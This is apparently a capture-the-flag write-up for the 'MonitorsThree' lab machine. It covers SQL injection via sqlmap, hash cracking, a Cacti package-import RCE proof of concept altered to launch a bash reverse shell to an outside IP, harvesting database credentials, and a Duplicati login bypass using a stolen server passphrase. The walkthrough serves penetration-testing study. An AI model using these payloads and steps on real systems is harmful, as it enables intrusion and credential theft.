




<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.11.30 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-26 18:25 CEST
Nmap scan report for 10.10.11.30
Host is up (0.045s latency).
Not shown: 65447 closed tcp ports (reset), 86 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.61 seconds
```

<br />

Open Ports:

`Port 22` -> ssh 

`Port 80` -> http

<br />

# Http Enumeration: -> Port 80

<br />

To access the main website, first we need to add `monitorsthree.htb` to our `/etc/hosts`:

<br />

```bash
❯ echo '10.10.11.30 monitorsthree.htb' >> /etc/hosts
```

<br />

Now we can visit the page:

<br />


<br />

It has two functionalities available.

A login panel at `/login.php`:

<br />


<br />

And the typical "Forgot Password" page at `/forgot_password.php`:

<br />



<br />

## Subdomain Fuzzing:

<br />

Before testing these functionalities, we are going to perform some `fuzzing` on the main `domain`:

<br />

```bash
❯ ffuf -u http://monitorsthree.htb -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -t 20 -fs 13560

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://monitorsthree.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.monitorsthree.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 20
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 13560
________________________________________________

cacti                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 44ms]
:: Progress: [4989/4989] :: Job [1/1] :: 432 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

<br />

Perfect! We have discovered a new `subdomain`!

<br />

### cacti.monitorsthree.htb:

<br />

Let's add it to our `/etc/hosts`:

<br />

```bash
10.10.11.30 monitorsthree.htb cacti.monitorsthree.htb
```

<br />

Once the `subdomain` has been added, we can visit the page:

<br />


<br />

Apparently, this page is hosting a `Cacti` instance running version `1.2.26`.

There is a known `Authenticated RCE` for this version, but since we don't have valid `credentials` at the moment, we will continue with the enumeration.

<br />

## Testing functionalities:

<br />

It's time to start testing the `functionalities` that we have seen before.

<br />

### login.php:

<br />

We attempt to log in using `default` credentials, but without success:

<br />


<br />

### forgot_password.php:

<br />

This functionality has two types of responses.

<br />

- 1.- Successful:

If we enter a valid username like `admin`, we will see the following message:

<br />


<br />

- 2.- Error:

But if the username is invalid, the application returns the following `error`:

<br />


<br />

## Error-Based SQL Injection (MySQL):

<br />

We can try inserting a single quote `"'"` into the input field and observe what happens:

<br />


<br />

This type of error is common in applications vulnerable to `SQL Injection`.

To continue testing this vulnerability, we will check if the payload `"anyusername' or 1=1-- -"` works:

<br />


<br />

Yes! Our query was injected successfully!

<br />

## Automated Exploitation with sqlmap:

<br />

Now we are going to automate the exploitation with `sqlmap`, because `error-based` injections can take a lot of time if we decide to exploit them manually.

To do this, we will capture and save the request to a file using `Burp Suite`:

<br />



<br />

At this point, we can feed the file to `sqlmap` to detect the injection:

<br />

```bash
❯ sqlmap -r request --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:40:15 /2025-04-26/

[20:40:15] [INFO] parsing HTTP request from 'request'
[20:40:16] [INFO] resuming back-end DBMS 'mysql' 
[20:40:16] [INFO] testing connection to the target URL
got a 302 redirect to 'http://monitorsthree.htb/forgot_password.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=admin';SELECT SLEEP(5)#
---
[20:40:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:40:16] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/monitorsthree.htb'

[*] ending @ 20:40:16 /2025-04-26/
```

<br />

We continue enumerating the available `databases`:

<br />

```bash
❯ sqlmap -r request --dbs --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.12#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:49:12 /2025-04-26/

[20:49:12] [INFO] parsing HTTP request from 'request'
[20:49:13] [INFO] resuming back-end DBMS 'mysql' 
[20:49:13] [INFO] testing connection to the target URL
got a 302 redirect to 'http://monitorsthree.htb/forgot_password.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=admin';SELECT SLEEP(5)#
---
[20:49:13] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

available databases [2]:
[*] information_schema
[*] monitorsthree_db

[20:49:13] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/monitorsthree.htb'

[*] ending @ 20:49:13 /2025-04-26/
```

<br />

There are two databases.

The most interesting one is `monitorsthree_db`, so let's enumerate its tables:

<br />

```bash
❯ sqlmap -r request -D monitorsthree_db --tables --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.12#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:52:28 /2025-04-26/

[20:52:28] [INFO] parsing HTTP request from 'request'
[20:52:29] [INFO] resuming back-end DBMS 'mysql' 
[20:52:29] [INFO] testing connection to the target URL
got a 302 redirect to 'http://monitorsthree.htb/forgot_password.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=admin';SELECT SLEEP(5)#
---
[20:52:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
...[snip]...
[20:58:38] [INFO] retrieved: users
Database: monitorsthree_db
[6 tables]
+---------------+
| changelog     |
| customers     |
| invoice_tasks |
| invoices      |
| tasks         |
| users         |
+---------------+

[21:01:19] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/monitorsthree.htb'

[*] ending @ 21:01:19 /2025-04-26/
```

<br />

We have six tables. 

We will dump the `users` one:

<br />

```bash

```

<br />

There are four `users` with their own hashes.

<br />

## Cracking Hashes:

<br />

If we enter these hashes into  [Crackstation](https://crackstation.net/), we are able to crack one of them:

<br />



<br />

This password works for the Cacti login -> `admin/greencacti2001`

<br />



<br />

## Cacti Authenticated RCE:

<br />

If we remember, before exploiting the `SQL Injection`, we had found an `RCE` vulnerability in this Cacti version.

After further research, we found a very useful [POC](https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88) in Cacti's security advisories on GitHub.

<br />

```php
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php phpinfo(); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

<br />

As we can see, the `POC` is a PHP script that is going to create a `.xml.gz` file with malicious `PHP` code inside.

After generating the file, we `upload` it via the Cacti interface under the `"Import Package"` section, and then access the upload path to `execute` the command.

Before running the script, we're going to replace the `"$filedata"` content with a bash reverse shell:

<br />

```php
$filedata = "<?php system('bash -c \"bash -i >& /dev/tcp/10.10.14.22/443 0>&1\"'); ?>");
```

<br />

Then, we run the PHP `exploit` to create the file:

<br />

```bash
❯ php exploit.php
❯ ls -l
.rwxr-xr-x root root 881 B  Sat Apr 26 22:58:24 2025  exploit.php
.rw-r--r-- root root 1.2 KB Sat Apr 26 23:58:20 2025  test.xml.gz
```

<br />

File created successfully!

Now we can get back to the Cacti admin panel and go to `"Import/Export"` -> `"Import Packages"` to select the file:

<br />


<br />

And click on `"Import"` to upload it:

<br />


<br />

Finally, we start a listener and access the `/cacti/resource/test.php` path to run our reverse shell:

<br />

```bash
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.30] 58674
bash: cannot set terminal process group (1153): Inappropriate ioctl for device
bash: no job control in this shell
www-data@monitorsthree:~/html/cacti/resource$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br />

Once we access the uploaded PHP file, we successfully receive a bash reverse shell as the `www-data` user.

<br />

# Privilege Escalation: www-data -> marcus

<br />

Inside the system, we start enumerating the `/var/www/html/cacti` path.

There are a lot of files, but inside `include` path we found one called `"config.php"` with useful data:

<br />

```php
$rdatabase_type     = 'mysql';
$rdatabase_default  = 'cacti';
$rdatabase_hostname = 'localhost';
$rdatabase_username = 'cactiuser';
$rdatabase_password = 'cactiuser';
$rdatabase_port     = '3306';
$rdatabase_retries  = 5;
$rdatabase_ssl      = false;
$rdatabase_ssl_key  = '';
$rdatabase_ssl_cert = '';
$rdatabase_ssl_ca   = '';
```

<br />

These `credentials` allow us to log into the Cacti database:

<br />

```bash
www-data@monitorsthree:~/html/cacti/include$ mysql -u cactiuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 8163
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

<br />

First, we list the databases:

<br />

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cacti              |
| information_schema |
| mysql              |
+--------------------+
3 rows in set (0.001 sec)
```

<br />

We select `cacti` and list the available tables:

<br />

```bash
MariaDB [cacti]> show tables;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |
| aggregate_graph_templates_graph     |
| aggregate_graph_templates_item      |
| aggregate_graphs                    |
| aggregate_graphs_graph_item         |
| aggregate_graphs_items              |
| automation_devices                  |
| automation_graph_rule_items         |
| automation_graph_rules              |
| automation_ips                      |
| automation_match_rule_items         |
| automation_networks                 |
| automation_processes                |
| automation_snmp                     |
| automation_snmp_items               |
| automation_templates                |
| automation_tree_rule_items          |
| automation_tree_rules               |
| cdef                                |
| cdef_items                          |
| color_template_items                |
| color_templates                     |
| colors                              |
| data_debug                          |
| data_input                          |
| data_input_data                     |
| data_input_fields                   |
| data_local                          |
| data_source_profiles                |
| data_source_profiles_cf             |
| data_source_profiles_rra            |
| data_source_purge_action            |
| data_source_purge_temp              |
| data_source_stats_daily             |
| data_source_stats_hourly            |
| data_source_stats_hourly_cache      |
| data_source_stats_hourly_last       |
| data_source_stats_monthly           |
| data_source_stats_weekly            |
| data_source_stats_yearly            |
| data_template                       |
| data_template_data                  |
| data_template_rrd                   |
| external_links                      |
| graph_local                         |
| graph_template_input                |
| graph_template_input_defs           |
| graph_templates                     |
| graph_templates_gprint              |
| graph_templates_graph               |
| graph_templates_item                |
| graph_tree                          |
| graph_tree_items                    |
| host                                |
| host_graph                          |
| host_snmp_cache                     |
| host_snmp_query                     |
| host_template                       |
| host_template_graph                 |
| host_template_snmp_query            |
| plugin_config                       |
| plugin_db_changes                   |
| plugin_hooks                        |
| plugin_realms                       |
| poller                              |
| poller_command                      |
| poller_data_template_field_mappings |
| poller_item                         |
| poller_output                       |
| poller_output_boost                 |
| poller_output_boost_local_data_ids  |
| poller_output_boost_processes       |
| poller_output_realtime              |
| poller_reindex                      |
| poller_resource_cache               |
| poller_time                         |
| processes                           |
| reports                             |
| reports_items                       |
| rrdcheck                            |
| sessions                            |
| settings                            |
| settings_tree                       |
| settings_user                       |
| settings_user_group                 |
| sites                               |
| snmp_query                          |
| snmp_query_graph                    |
| snmp_query_graph_rrd                |
| snmp_query_graph_rrd_sv             |
| snmp_query_graph_sv                 |
| snmpagent_cache                     |
| snmpagent_cache_notifications       |
| snmpagent_cache_textual_conventions |
| snmpagent_managers                  |
| snmpagent_managers_notifications    |
| snmpagent_mibs                      |
| snmpagent_notifications_log         |
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_auth_row_cache                 |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
113 rows in set (0.001 sec)
```

<br />

If we describe the `"user_auth"` table, its content looks very interesting:

<br />

```bash
MariaDB [cacti]> describe user_auth;
+------------------------+-----------------------+------+-----+---------+----------------+
| Field                  | Type                  | Null | Key | Default | Extra          |
+------------------------+-----------------------+------+-----+---------+----------------+
| id                     | mediumint(8) unsigned | NO   | PRI | NULL    | auto_increment |
| username               | varchar(50)           | NO   | MUL | 0       |                |
| password               | varchar(256)          | NO   |     |         |                |
| realm                  | mediumint(8)          | NO   | MUL | 0       |                |
| full_name              | varchar(100)          | YES  |     | 0       |                |
| email_address          | varchar(128)          | YES  |     | NULL    |                |
| must_change_password   | char(2)               | YES  |     | NULL    |                |
| password_change        | char(2)               | YES  |     | on      |                |
| show_tree              | char(2)               | YES  |     | on      |                |
| show_list              | char(2)               | YES  |     | on      |                |
| show_preview           | char(2)               | NO   |     | on      |                |
| graph_settings         | char(2)               | YES  |     | NULL    |                |
| login_opts             | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_graphs          | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_trees           | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_hosts           | tinyint(3) unsigned   | NO   |     | 1       |                |
| policy_graph_templates | tinyint(3) unsigned   | NO   |     | 1       |                |
| enabled                | char(2)               | NO   | MUL | on      |                |
| lastchange             | int(11)               | NO   |     | -1      |                |
| lastlogin              | int(11)               | NO   |     | -1      |                |
| password_history       | varchar(4096)         | NO   |     | -1      |                |
| locked                 | varchar(3)            | NO   |     |         |                |
| failed_attempts        | int(5)                | NO   |     | 0       |                |
| lastfail               | int(10) unsigned      | NO   |     | 0       |                |
| reset_perms            | int(10) unsigned      | NO   |     | 0       |                |
+------------------------+-----------------------+------+-----+---------+----------------+
25 rows in set (0.001 sec)
```

<br />

Finally, we extract the `username` and `password` fields from this table:

<br />

```bash
MariaDB [cacti]> select username, password from user_auth;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G |
| guest    | $2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu |
| marcus   | $2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK |
+----------+--------------------------------------------------------------+
3 rows in set (0.000 sec)
```

<br />

There are several `Blowfish Bcrypt` hashes.

If we save them into a file, we can crack the `marcus` hash and obtain the following password:

<br />

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
12345678910      (?)     
1g 0:00:00:03 DONE (2025-04-26 23:35) 0.2659g/s 134.0p/s 134.0c/s 134.0C/s nicole1..linkinpark
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<br />

In the system there is a user called `marcus`:

<br />

```bash
www-data@monitorsthree:~/html/cacti/include$ cat /etc/passwd | grep marcus
marcus:x:1000:1000:Marcus:/home/marcus:/bin/bash
```

<br />

Using marcus `password`, we can log into this user and get the `user.txt` flag:

<br />

```bash
www-data@monitorsthree:/home$ su marcus
Password: 
marcus@monitorsthree:/home$ cd
marcus@monitorsthree:~$ cat user.txt
dc84ded82dd15067371b6fc638xxxxxx
```

<br />

# Privilege Escalation: marcus -> root

<br />

While enumerating the system, we find the following into `/opt`:

<br />

```bash
marcus@monitorsthree:/opt$ ls -l
total 16
drwxr-xr-x 3 root root 4096 May 20  2024 backups
drwx--x--x 4 root root 4096 May 20  2024 containerd
-rw-r--r-- 1 root root  318 May 26  2024 docker-compose.yml
drwxr-xr-x 3 root root 4096 Aug 18  2024 duplicati
```

<br />

### backups:

<br />

Apparently, this directory is being used to `store` cacti backups:

<br />

```bash
marcus@monitorsthree:/opt$ ls -l backups/cacti/
total 19720
-rw-r--r-- 1 root root   172507 May 26  2024 duplicati-20240526T162923Z.dlist.zip
-rw-r--r-- 1 root root   172088 Aug 20  2024 duplicati-20240820T113028Z.dlist.zip
-rw-r--r-- 1 root root   172088 Apr 27 09:23 duplicati-20250427T092338Z.dlist.zip
-rw-r--r-- 1 root root    10877 Apr 27 09:23 duplicati-b96fcec7b62044644be9f3a0fad5fb787.dblock.zip
-rw-r--r-- 1 root root 19423816 May 26  2024 duplicati-bb19cdec32e5341b7a9b5d706407e60eb.dblock.zip
-rw-r--r-- 1 root root    25004 Aug 20  2024 duplicati-bc2d8d70b8eb74c4ea21235385840e608.dblock.zip
-rw-r--r-- 1 root root     2493 Aug 20  2024 duplicati-i7329b8d56a284479bade001406b5dec4.dindex.zip
-rw-r--r-- 1 root root     1269 Apr 27 09:23 duplicati-ic42c3673721b4b52addf547d0829196c.dindex.zip
-rw-r--r-- 1 root root   185083 May 26  2024 duplicati-ie7ca520ceb6b4ae081f78324e10b7b85.dindex.zip
```

<br />

### docker-compose.yml:

<br />

This file has relevant information about `Duplicati`:

<br />

```yml
version: "3"

services:
  duplicati:
    image: lscr.io/linuxserver/duplicati:latest
    container_name: duplicati
    environment:
      - PUID=0
      - PGID=0
      - TZ=Etc/UTC
    volumes:
      - /opt/duplicati/config:/config
      - /:/source
    ports:
      - 127.0.0.1:8200:8200
    restart: unless-stopped
```

<br />

It reveals that `Duplicati` is using port 8200 and its config directory.

With this information, we can set up a `port forwarding` connection using SSH:

- (We use `id_rsa` authentication because with marcus's password does not work)

<br />

```bash
ssh -i id_rsa marcus@10.10.11.30 -L 8200:127.0.0.1:8200
```

<br />

And load the website:

<br />


<br />

We try to reuse marcus credentials without success:

<br />


<br />

## Duplicati Login Bypass:

<br />

After doing some research on this software, we found a very useful [post on Medium](https://read.martiandefense.llc/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee). 

It explains how an attacker can bypass the Duplicati login using the `server-passphrase`.

In our case, we can obtain this value from the Duplicati's DB into the `/opt/duplicati/config` path:

<br />

```bash
marcus@monitorsthree:/opt/duplicati/config$ ls
CTADPNHLTC.sqlite  Duplicati-server.sqlite  control_dir_v2
```

<br />

It's inside the `Option` table:

<br />

```bash
sqlite> select * from Option;
4||encryption-module|
4||compression-module|zip
4||dblock-size|50mb
4||--no-encryption|true
-1||--asynchronous-upload-limit|50
-1||--asynchronous-concurrent-upload-limit|50
-2||startup-delay|0s
-2||max-download-speed|
-2||max-upload-speed|
-2||thread-priority|
-2||last-webserver-port|8200
-2||is-first-run|
-2||server-port-changed|True
-2||server-passphrase|Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
-2||server-passphrase-salt|xTfykWV1dATpFZvPhClEJLJzYA5A4L74hX7FK8XmY0I=
-2||server-passphrase-trayicon|e983b41d-7947-45a1-90c0-22ce2f95e49e
-2||server-passphrase-trayicon-hash|Xc+yx69jieZfVrdcugV2kclgErQ2QmOE3uCHTdaBkfY=
-2||last-update-check|638813426777242290
-2||update-check-interval|
-2||update-check-latest|
-2||unacked-error|False
-2||unacked-warning|False
-2||server-listen-interface|any
-2||server-ssl-certificate|
-2||has-fixed-invalid-backup-id|True
-2||update-channel|
-2||usage-reporter-level|
-2||has-asked-for-password-protection|true
-2||disable-tray-icon-login|false
-2||allowed-hostnames|*
```

<br />

Once we have this, it's important to understand one key aspect of Duplicati's authentication process to exploit it.

This `JavaScript` code snippet is crucial to do it:

<br />

```javascript
var saltedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Utf8.parse($('#login-password').val()) + CryptoJS.enc.Base64.parse(data.Salt)));

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse(data.Nonce) + saltedpwd)).toString(CryptoJS.enc.Base64);
```

<br />

This piece of code computes a `SHA-256` hash of the concatenation of a password, a salt and a nonce improving security through salting and `nonce-based` authentication.

To continue understanding this, we need to intercept the login request with `Burp Suite`:

<br />


<br />

Once intercepted, we make a right click to set `"Do intercept"` -> `"Response to this request"`.

By doing this, we will intercept the response to our login request, which is necessary to extract the `nonce` value:

<br />


<br />

Finally, we click on forward until we see the response with the `nonce`:

<br />


<br />

The nonce is just one of the variables needed to craft a valid `NoncePwd`.

Now, we need to convert the base64 `server-passphrase` value to hex.

(It's important to keep the Burp Suite interception active because the nonce value is dynamically generated for each login attempt.)

We can do it with [CyberChef](https://cyberchef.org/):

<br />


<br />

Perfect! We have all that we need!

To craft the valid NoncePwd we will use this JavaScript payload:

<br />

var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('YcNVg20GVbMIh/xjxsGtX8bc9RyAqBCAkJ4Ll5jOtTM=') + '59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a')).toString(CryptoJS.enc.Base64);

<br />

- First value is -> nonce

- Second value is -> Hex server-passphrase

<br />

Once we have the payload, we only need to put it on our browser console and execute.

If we type noncepwd we will see the crafted value:

<br />


<br />

Finally, we get back to Burp Suite and click on Forward until see the request with password field.

Then, we replace the password value with the NoncePwd crafted one and click again on Forward:

<br />


<br />

We did it! Login Bypassed!

<br />
